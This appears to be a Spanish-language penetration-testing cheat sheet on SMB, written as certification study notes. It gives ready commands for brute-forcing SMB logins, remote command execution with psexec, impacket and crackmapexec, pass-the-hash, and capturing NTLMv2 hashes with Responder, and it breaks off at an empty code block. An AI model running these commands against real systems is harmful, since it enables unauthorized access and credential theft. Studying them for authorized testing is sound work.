## Montar servidor SMB
[[Transferencia de archivos#Impacket-smbserver - Sin user-pass| Más info a paritr de aquí]]
### Impacket-smbserver 
```bash
#Sin credenciales
sudo impacket-smbserver share -smb2support /tmp/smbshare
# Con credenciales
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password pass
```
Crea el recurso `share`



## Ataques específicos del protocolo
### Fuerza bruta
[[Fuerza bruta#Servicios de red|Revisar aquí]]
Ejemplo nxc (en rpincipio nxc es la mejor opción específica para smb, pero se podrían utilizar otras herramientas como hydra, medusa o ncrack): 
```bash
nxc smb $target -u user.list -p passwords.list --local-auth
```
### RCE
#### psexec
Es una herramienta que nos permite ejecutar procesos en otros sistemas sin tener que instalar software de cliente manualmente. Necesitamos permisos administrativos en la máquina atacante 
Además de la herramienta de Windows(parrafo siguiente) existen varias herramientas Linux, como [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py), [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py), [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)
#### psexec Windows
Podemos descargar PsExec desde [el sitio web de Microsoft](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
```powershell
psexec \\10.10.110.17 -u administrator -p Password123! cmd.exe
```
#### impacket-psexec
```bash
impacket-psexec administrator:'Password123!'@$target
```
#### nxc
```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
### PtH
Podemos ver más información [[Credenciales en Windows#2. Pass-the-Hash (PtH)|aquí]]
```bash
nxc smb $target -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
### Ataques de autenticación forzada
Estos ataques no están permitidos en OSCP  o similar
#### MITM - Responder
Responder emula servicios como SMB, HTTP , FTP ó LDAP. Cuando un cliente busca un nombre que no puede resolver, Responder responde ser el servidor solicitado y así captura hashes como NTMLv2
```bash
sudo responder -I eth0
```
Los hash capturados se guardan en 
```bash
```